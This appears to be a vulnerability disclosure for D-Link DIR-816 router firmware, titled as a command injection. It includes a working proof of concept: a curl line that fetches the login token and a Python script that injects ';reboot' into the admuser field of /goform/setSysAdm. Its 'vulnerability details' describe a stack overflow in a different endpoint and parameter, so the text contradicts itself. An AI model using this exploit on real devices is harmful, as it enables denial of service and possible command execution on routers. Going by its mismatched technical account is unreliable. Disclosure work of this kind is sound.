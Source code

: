 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Command Injection

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WizardStep54.cgi.    The contents obtained by the wizardstep54_pskpwd parameter are passed to V8, and then the contents matched by V8 are decoded and put into the V14 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/setSysAdm'

payload = ';reboot'

data = {
    'tokenid': tokenid,
    'admuser': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

The router will restart
